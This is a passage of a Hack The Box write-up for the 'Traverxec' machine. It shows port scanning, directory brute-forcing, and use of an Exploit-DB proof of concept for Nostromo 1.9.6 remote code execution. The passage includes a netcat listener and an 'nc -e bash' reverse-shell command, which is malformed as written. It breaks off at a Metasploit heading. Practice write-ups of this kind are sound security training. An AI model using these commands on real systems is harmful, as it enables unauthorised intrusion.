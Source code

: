 ```yaml
---
title: "Traverxec"
subtitle: Hack The Box
excerpt: "Traverxec is an easy linux box that features a Nostromo Web Server, which is vulnerable to Remote Code Execution (RCE). The Web server configuration files lead us to SSH credentials, which allow us to move laterally to the user `david`. A bash script in the user's home directory reveals that the user can execute `journalctl` as root, which is exploited to spawn a `root` shell!"
header:
  image: /images/traverxec/traverxec_bio.png
  teaser: /images/traverxec/traverxec_bio.png
share_image: /images/traverxec/traverxec_bio.png
author_profile: true
tags:
  - Writeup
  - kali
  - hack the box
sidebar:
  - title: "Traverxec"
    image: /images/traverxec/traverxec_bio.png
    image_alt: "Traverxec"
    text: "Hack The Box"
  - title: "Skills Learned"
    text: "SSH Key Cracking, GTFOBins"  
---
```


# Overview

Traverxec is an easy linux box that features a Nostromo Web Server, which is vulnerable to Remote Code Execution (RCE). The Web server configuration files lead us to SSH credentials, which allow us to move laterally to the user `david`. A bash script in the user's home directory reveals that the user can execute `journalctl` as root, which is exploited to spawn a `root` shell!

---

# Enumeration

```bash
ports=$(nmap -p- --min-rate=1000 -T4 10.10.10.165 | grep ^[0-9] | cut -d '/' -f
1 | tr '\n' ',' | sed s/,$//)
nmap -p$ports -sC -sV 10.10.10.165
```

![Initial NMAP](/images/traverxec/nmap.png)

Once the scan completes, it reveals ports 22 and 80 are open. NMAP also reports that the `http-server-header` is `nostromo 1.9.6`, which indicates the box is running the `Nostromo` HTTP server.

---

# Nostromo

![Nostromo](/images/traverxec/nostromo.png)

The webpage appears to be pretty empty, resulting in very little information at first look. So, we fire off a gobuster:

```bash
gobuster dir -u http://10.10.10.165 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -n
```

While we let gobuster run in the background, I look to Google. After a bit of digging, we find that Nostromo version 1.9.6 has a [Remote Code Execution](https://www.exploit-db.com/exploits/47837) vulnerability. Being that this exploit is found on Exploit-DB, that usually means there is a Metasploit module for it - which means we can "manually" exploit it or use Metasploit. I'll show both ways.

1. "Manual" exploitation.

First, we need to copy the exploit from exploit-db and inspect it:

```bash
searchsploit -m /multiple/remote/47837
```
---

![Exploit](/images/traverxec/payload.png)

### The heck is going on?

Interesting. We're exploiting the `http_verify` function in nostromo nhttpd. Which is allowing us remote code execution. Let's test it out:

```bash
python 47837.py 10.10.10.165 80 id
```

Ok, cool, we got a response. Lets setup a listener and try to get a shell:

```bash
nc -lvnp 9001
```

```bash
python 47837.py "nc -e bash 10.10.10.165 9001"
```

And........ We get a shell

---


# Metasploit


